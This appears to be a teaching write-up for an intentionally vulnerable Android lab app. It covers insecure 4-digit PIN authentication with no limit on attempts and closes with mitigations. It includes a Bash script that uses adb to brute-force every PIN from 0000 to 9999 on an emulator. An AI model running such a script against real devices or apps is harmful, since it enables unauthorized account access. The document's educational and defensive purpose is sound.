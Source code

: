 # Insecure Authentication

## Introduction
Authentication is the act of confirming a user's identity. Many apps require user accounts which will naturally require authentication in order to check details for their correctness. If authentication is carried out by a 3rd party server then this section will not be relevant, but if your app uses local authentication then this guide will be something to think about.
There are two main issues that apps commonly contain. The first is the lack of attempt counter. This leaves the app vulnerable to brute force attack. The second issue is related to the first. Many apps use a 4-digit PIN as a way of securing certain content (e.g. secret folders). The issue is that 4 digit PIN codes only have 10000 combinations. Computationally this is a small number and a brute force attack would be almost instantaneous. Furthermore, according to [this website](https://datagenetics.com/blog/september32012/index.html) 20 combinations account for 26.83% of all combinations.

## Vulnerability
In this app, the log in screen not only uses a 4 digit PIN code, but it does not track the number of attempts leaving the app and authentication open to attack.
I have created a Bash script to demonstrate the ability to brute force the password on the emulator. The code for the script is below:

```
#!/usr/bin/env bash

cd C:/Users/chris/AppData/Local/Android/Sdk/platform-tools
./adb shell am start -n com.example.damnvulnerablemobileapp/.MainActivity
./adb shell input touchscreen tap 400 2100
./adb shell input touchscreen tap 540 700
./adb shell input touchscreen tap 540 350
for number in {0000..9999};
do
    ./adb shell input text "$number"
	./adb shell input touchscreen tap 900 550
done
exit 0
```

## What this looks like
In code this will be noticeable anywhere that PIN numbers are accepted. There will also be a lack of tests regarding incorrect login attempts.

## Where this can be found
Authentication can occur anywhere in an app that needs to check entered details - usually for accessing hidden content or logging into an account.

## Mitigation
As mentioned at the beginning, shifting authentication to a 3rd party server with appropriate security measures will relieve the need for checks locally in the app. If authentication must occur locally then make sure that there are time-outs associated with incorrect login attempts. Furthermore, if there is a need for passwords, always enforce alphanumeric passwords to ensure strong password strength.